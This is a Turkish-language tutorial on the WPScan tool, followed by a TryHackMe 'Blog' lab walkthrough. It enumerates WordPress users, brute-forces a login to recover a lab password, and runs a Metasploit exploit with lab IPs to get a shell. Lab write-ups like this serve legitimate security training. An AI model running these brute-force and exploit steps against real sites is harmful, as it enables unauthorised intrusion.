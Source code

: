 # Wpscan

<figure><img src="../assets/wpscan/wpscan_logo.png" alt=""><figcaption></figcaption></figure>

Wpscan açık kaynak kodlu geliştirilmiş ve terminalde çalıştırılan bir araçtır. WordPress kullanan sitelerde tarama yapmak için kullanılır.

WordPress siteleri hakkında temel bilgileri ve varsa güvenlik zafiyetleri hakkında bilgi verir. Kali Lİnux üzerinde yüklü olarak gelir.&#x20;

Biraz Wpscan aracının yapabildiklerinden bahsedelim:

* Tema taraması
* Eklenti taraması
* Brute Force
* Dizin taraması vb.

Eğer başka bir dağıtım kullanıyorsanız aşşağıdaki kod ile Wpscan aracınızı indirebilirsiniz.

```
gem install wpscan
```

Aracımızın sahip olduğu parametreleri görmek için şu komutu kullanıyoruz:

```
wpscan -h
```

<figure><img src="../assets/wpscan/wpscanfirst.png" alt=""><figcaption></figcaption></figure>

Bir web sitesi üzerinde tarama gerçekleştireceğimiz için bir url parametresine ihtiyacımız var. `--url` parametresiyle test edeceğimiz web sitesini parametre olarak veriyoruz.

Ayrıca aracın hangi türde bir tarama yapacağından bahsetmemiz lazım bunun içinde `--enumerate` parametresini kullanıyoruz.

\--enumerate parametresiyle seçenekler vermemiz lazım:

* t : Popüler temaları tarar
* vt : Zafiyetli temaları tarar
* p : Popüler eklentileri tarar
* vp : Zafiyetli eklentileri tarar
* ap : Bütün eklentileri tarar

Verilen --url parametresine göre popüler temaları tarar:

```
wpscan --url <ip/url> --enumerate t
```

\-vt parametresiyle zafiyetli temaları tarar:

```
wpscan --url <ip/url> --enumerate vt
```

\-p parametresiyle popüler eklentileri tarar:

```
wpscan --url <ip/url> --enumerate p
```

\-vp parametresiyle zafiyetli eklentileri tarar:

```
wpscan --url <ip/url> --enumerate vp
```

\-at parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate at
```

\-ap parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate ap
```

Wpscan aracımızı daha iyi tanımak ve kullanabilmek için [Try Hack Me Blog](https://tryhackme.com/r/room/blog) odasında kullanacağım. Öncelikle web sitemizi çalıştırıyoruz. Öncelikle Try Hack Me tarafından bana verilen Ip adresini /etc/hosts altındaki dosyaya ekliyorum.

<figure><img src="../assets/wpscan/wpscanEtc.png" alt=""><figcaption></figcaption></figure>

Sonrasında tarayıcımdan blog.thm adresine gidiyorum. Ve sitede gezinirken en alt tarafta sitenin WordPress ile geliştirildiğine dair bir yazı yer alıyor.

<figure><img src="../assets/wpscan/wordpress.png" alt=""><figcaption></figcaption></figure>

Wpscan aracımız ile site üzerinde tarama yapabiliriz. Öncelikle zafiyetli eklentiler için bir tarama yapalım bunun için şu komutu yazıyoruz:

```
wpscan --url blog.thm --enumerate vp
```

Bu sorgunun sonucu olarak yararlı bir şey çıkmıyor. Var olan kullanıcıları listeleyeim ve sonrasında brute force deneyelim.&#x20;

```
wpscan --url blog.thm --enumerate u
```

Bu işlemden sonra karşımıza şöyle bir sonuç çıkıyor.

<figure><img src="../assets/wpscan/wpscanU.png" alt=""><figcaption></figcaption></figure>

2 tane kullanıcımız var Karen Wheeler ve Bill Joel. Bunların kullanıcı adları sırasıyla kwhell ve bjoel. Kullanıcı adlarını bulduğumuza göre login ekranına brute force deneyelim. Öncelikle kwhell kullanıcısı için bir komut yazacağım. Eğer şifreyi bulamazsak bjoel kullanıcısı içinde bir komut yazacağım.&#x20;

```
wpscan --url blog.thm --usernames kwheel --passwords <sifre.txt>
```

Bu işlem sonucunda geçerli bir şifre elde ediyoruz.

<figure><img src="../assets/wpscan/wpscanPass.png" alt=""><figcaption></figcaption></figure>

`kwheel - cutiepie1` bu bilgiler ile giriş yapalım ve bakalım sonrasında neler yapabiliyoruz.&#x20;

<figure><img src="../assets/wpscan/wpscanlogin.png" alt=""><figcaption></figcaption></figure>

Giriş yaptıktan sonra karşımıza ektra bir şey çıkmıyor. Web sitesi özelinde temel işle yapabiliyoruz. Bizim sunucuda olan dosyalarla işimiz var. WordPress'in eski sürümlerinde zafiyet olabilir ve biz bu zafiyeti kullanabiliriz. Zafiyetleri görmek için yukarıda yaptığımız `wpscan --url blog.thm --enumerate vp` komutundan biraz daha farklı bir şey yazacağız. Yukarıdaki gibi bir komut yazarsak Wpscan bize zafiyetleri göstermiyor.&#x20;

Bize zafiyetleri göstermesini istiyorsak [Wpscan](https://wpscan.com/profile/) adresinden bize sağlanan token değerini parametre olarak vermemiz gerekiyor.&#x20;

```
wpscan --url blog.thm --enumerate vp --api-token <token>
```

Bu kod sonrasında sistemden şöyle bir çıktı almamız sağlar.&#x20;

<figure><img src="../assets/wpscan/wpscanvuln.png" alt=""><figcaption></figcaption></figure>

Çıktı olarak 70 tane zafiyetin olduğunu gösteriyor. WordPress sürümünü de öğrendikten sonra msfconsole üzerinden zafiyet araması yapabiliriz.

<figure><img src="../assets/wpscan/wpscanmsf.png" alt=""><figcaption></figcaption></figure>

Karşımızı bu sonuçlar çıkıyor. `use 0` diyerek payloadımı seçiyorum. Sonrasında payloadın bize sunduğu ayarları görmek için `show options` diyorum.&#x20;

<figure><img src="../assets/wpscan/wpmsfset.png" alt=""><figcaption></figcaption></figure>

Sırasıyla şu ayarlamaları yapıyorum.&#x20;

<pre><code>set PASSWORD cutiepie1
<strong>set RHOSTS 10.10.154.220 // THM odasının çalıştığı IP adresini veriyoruz
</strong>set USERNAME kwheel
set LHOST 10.6.63.226  // THM odasına bağlandığımız IP adresi
run
</code></pre>

Run komutuyla birlikte exploitimiz çalışmaya başlıyor. Buradaki amacımız var olan bir zafiyeti sömürerek shell almaya çalışıyoruz.

<figure><img src="../assets/wpscan/wpscanshell.png" alt=""><figcaption></figcaption></figure>

Ve evet shell aldık, sistem üzerinde komutlar çalıştırabiliyoruz.&#x20;

> Bu yazı [*Yavuz Kuk*](https://www.linkedin.com/in/yavuzkuk/) tarafından hazırlanmıştır.